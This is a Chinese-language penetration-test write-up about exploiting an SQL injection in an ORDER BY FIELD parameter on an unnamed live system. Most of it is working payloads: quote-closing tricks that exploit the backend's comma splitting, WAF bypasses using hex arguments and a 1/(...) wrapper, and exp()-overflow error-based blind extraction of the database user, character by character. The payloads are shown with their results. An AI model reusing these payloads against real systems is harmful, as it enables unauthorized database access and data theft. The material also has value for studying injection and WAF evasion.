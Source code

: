 某次奇怪的sql注入记录

发现注入
====

某个功能点的抓包测试，对其中参数进行测试

单/双数个引号正常规律返回，注入存在，同时返回报错信息

先看一个单引号的报错

```php
keyValue=29'
```

![image-20230720114544602](https://shs3.b.qianxin.com/butian_public/f862999700e1d99b9230374559a3a4648eb72e5e60f65.jpg)

key值被俩单引号包起来了

构造

```mysql
keyValue=29'='29
```

正常执行

![image-20230719183602312](https://shs3.b.qianxin.com/butian_public/f957114c83cb84fcec3653f0c715970bee3f3905dc867.jpg)

常规手法尝试注出库名,（先构造逻辑运算，在构造报错，再在报错语句中执行查询）

```mysql
keyValue=29'=if(1 like 1 ,1,1)='29
```

，发现有某waf

![image-20230720174007064](https://shs3.b.qianxin.com/butian_public/f47382970666593c30ac6273c0ee3209f6d74d6211ca7.jpg)

利用该waf特性，将if函数的参数类型稍作修改即可绕过，例如十六进制字符

```mysql
keyValue=29'=if(1 like 1 ,1,0x11)='29
```

![image-20230720174828060](https://shs3.b.qianxin.com/butian_public/f1227308c43d74f0ea0cc2c59dc81032f7a15a5f66c05.jpg)

观察报错，发现执行的语句我们传入的payload莫名奇妙多了几个单引号，导致语句始终无法正常闭合

看sql语句是此处的传参是在 order by field后面，尝试了解下order by field看能不能有所突破

order by field
==============

order by field 是mysql中基于order by拓展的一种语法，用于更加定制化的排序

只使用order by的话，只能对指定列的值按照正序/逆序进行排序

例如对以下数据按照id进行排序，返回的结果要么是id的值从1-10顺序排列，要么是使用order by desc使结果为id的值从10-1逆序排列

![image-20230719115858869](https://shs3.b.qianxin.com/butian_public/f591045a31a1a2e4af862536e071894d7497fd83d1f5b.jpg)

有没有一种办法使返回结果按照给定的id序列排序呢，例如返回结果序列对应id的序列为1，3，5，7，9，2，4，6，8，10这种

order by fieid就可以解决如下需求

![image-20230719120553247](https://shs3.b.qianxin.com/butian_public/f791607d2ed013ae1432b684767ce01b2106cada68000.jpg)

order by field的排序原理为将指定的列值对应的数据逐一与源数据表中数据进行比较，匹配到的值会置于源数据表的最后一行，依次进行

没有匹配到的数据会按照原始顺序处于表中的顶部

![image-20230719121420075](https://shs3.b.qianxin.com/butian_public/f77117558c2100c014e5d898ebbb112ba2585d85cb238.jpg)

值得注意的是，当order by field指定排序的列的值为字符串类型时，必须用引号括起来，否则会报错（mysql中int类型的数字与char类型的数字是可以相等的，这种情况除外）

![image-20230719150601084](https://shs3.b.qianxin.com/butian_public/f4798679fe116a6d84c96da357d5ee363b4163f30fc47.jpg)

![image-20230719150849419](https://shs3.b.qianxin.com/butian_public/f2476276ae1b5406d4f59813f18de9ed2d0197dd7b6f2.jpg)

知道了这个特性，就不难猜出之前的注入会什么执行时会多了几个单引号了，应该就是开发设计后端在接受前端传过来的order by field的参数并拼接到sql语句中时，对所有传入的参数先以逗号为分隔符分组，再将分组的数据各自用单引号括起来在拼接到sql语句中执行。

比如当我们传入keyValue=29'=if(1 like 1 ,1,0x11)='29时，后端对传入的字符串以逗号进行截取，获得三个字符串如下

```php
29'=if(1 like 1
1
0x11)='29
```

再将三个字符串各自用引号括起来作为order by field的参数

所以当传入keyValue为29'=if(1 like 1 ,1,0x11)='29，数据库中执行的是

```mysql
SELECT * FROM xxx WHERE xxx  ORDER BY FIELD (`id`, '29'=if(1 like 1 ','1','0x11)='29') LIMIT 0,999999
```

![image-20230720175014002](https://shs3.b.qianxin.com/butian_public/f53421705b589141bc051aed454be7f35e16e01bf5047.jpg)

搞清楚了语句的逻辑后，接下来开始构造闭合语句

注出库名
====

将29'=if(1 like 1 ,1,0x11)='29改成==》29'=if('1' like '1 ,1,0x11')='29

![image-20230720175535558](https://shs3.b.qianxin.com/butian_public/f940561b87b5c03dcf57beb01a06cad0e7ebc04b28b1d.jpg)

构造报错

```mysql
keyValue=29'=if(exp(111) like '1 ,1,0x11')='29
```

![image-20230720175801329](https://shs3.b.qianxin.com/butian_public/f11705343828c2143bcf7e8172e6816b0766f456bc8a2.jpg)

```mysql
keyValue=29'=if(exp(710) like '1 ,1,0x11')='29
```

![image-20230720175848611](https://shs3.b.qianxin.com/butian_public/f9889085a6a4a48d082ca99b565ae9a7aa4a14b3a62de.jpg)

返回不一样，可以使用报错盲注

开始尝试爆user

```mysql
keyValue=29'=if(exp(if(current_user like '1,710,1')) like '1 ,1,0x11')='29
```

waf阻断

![image-20230720183442632](https://shs3.b.qianxin.com/butian_public/f856911a977a2565d03261029094b5488985cb88cf04d.jpg)

老样子，将if函数的的参数值修改一下绕过该waf

if(current\_user like 1,710,1)==》if(current\_user like 1,710,0x11)

![image-20230720180217184](https://shs3.b.qianxin.com/butian_public/f5981775e330ac03f2d9d7fafed9e1ca3721bce6e4750.jpg)

居然不行，应该是触发了别的拦截策略，将current\_user改成current\_use又可以了，一开始以为是检测了current\_user这个字符串,后来发现并不是，将if函数的参数再fuzz修改一下，绕过成功

if(current\_user like 1,710,0x11)==》if(1/(current\_user like 1),710,0x11)

```mysql
keyValue=29'=if(exp(if(1/(current_user like '1),710,0x11')) like '1 ,1,0x11')='29
```

![image-20230720184246305](https://shs3.b.qianxin.com/butian_public/f596060d096e424cbf1fdeef767d87a09dc1ae2059127.jpg)

但是此时，语句又出了问题，最里面的if语句的右括号被两个引号包裹了，导致语句异常

此时，需要在这个右括号的后面再构造一个布尔运算，使这个右括号逃出引号的包裹

即

原先经过后端处理的第一个取值为

```mysql
29'=if(exp(if(1/(current_user like '1)
```

最终执行为

```MYSQL
SELECT * FROM xxx WHERE xxx  ORDER BY FIELD(`id`, '29'=if(exp(if(1/(current_user like '1)','710','0x11')) like '1 ','1','0x11')='29') LIMIT 0,999999
```

修改为如下后

```mysql
keyValue=29'=if(exp(if(1/(current_user like '1')='1,710,0x11')) like '1 ,1,0x11')='29
```

经过后端处理原先的第一个取值为

```mysql
29'=if(exp(if(1/(current_user like '1')='1
```

最终执行为

```mysql
SELECT * FROM xxx WHERE xxx  ORDER BY FIELD(`id`, '29'=if(exp(if(1/(current_user like '1')='1','710','0x11')) like '1 ','1','0x11')='29'') LIMIT 0,999999
```

![image-20230720184657249](https://shs3.b.qianxin.com/butian_public/f2510766b3a6355f3f1ce14e51c0d4c73a194e11e8c3c.jpg)

一位一位直接跑出user

```php
keyValue=29'=if(exp(if(1/(current_user like 'root%')='1,710,0x11')) like '1 ,1,0x11')='29
```

![image-20230720184729945](https://shs3.b.qianxin.com/butian_public/f952049d85889f25d95677ae24475327c87ebb7bd3cbd.jpg)